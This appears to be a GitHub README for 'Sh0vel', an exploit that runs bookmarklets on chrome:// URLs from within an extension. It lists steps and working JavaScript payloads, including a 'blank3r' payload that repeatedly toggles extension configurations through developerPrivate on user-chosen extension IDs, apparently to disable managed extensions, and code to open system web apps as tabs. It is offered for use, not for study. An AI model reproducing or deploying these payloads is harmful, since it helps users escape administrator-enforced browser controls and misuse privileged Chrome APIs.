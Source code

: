 ```yaml
---
title: bookmarklet-runner-sh0vel
---
```


-e 
Sh0vel - Run bookmarklets on almost any url

Sh0vel is an exploit letting bookmarklets run on almost any url, most notably chrome urls, allowing you to access permissions like developerPrivate or settingsPrivate from within an extension. 

Steps:
1. Get code execution in an extension. This can be by point-blank, skiovox breakout (preferably), rigtools, XSS, DNS spoofing, or some other way, but you need code execution in the extension.

2. Verify it has the correct permissions. For this to work, the following permissions are needed:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP
If it does not have these permissions, this will not work.

3. Enable the flag "#extensions-on-chrome-urls"

4. Get a bookmarklet. This is fairly straight-forward. I'll use blank3r as an example.

5. Place the bookmarklet as follows:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});
Make the extension run that code.

If you wanted to use blank3r, you would use this code:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `let link=window.open('about:blank','_blank');link.location.href="javascript:let shim = false;var ids = prompt('extension ids (comma separated)').split(',');setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);";`});});

6. Open the url you want this code to run on. For blank3r, open chrome://extensions.

If you want to run code on an SWA (e.g. chrome://os-settings), you will need to open it as a normal tab. This can be accomplished with the code below (credits to Writable):
chrome.tabs.create({}, () => {chrome.tabs.update(null, {url: "chrome://file-manager"});});
You can replace chrome://file-manager with the SWA of your choosing.

7. Click the extension icon. If done correctly, your bookmarklet will run!

Credits:
Writable for helping open SWAs as a normal tab
Hannah for the finding the original API access exploit
The rest of Whelement: mental support
Titanium Network

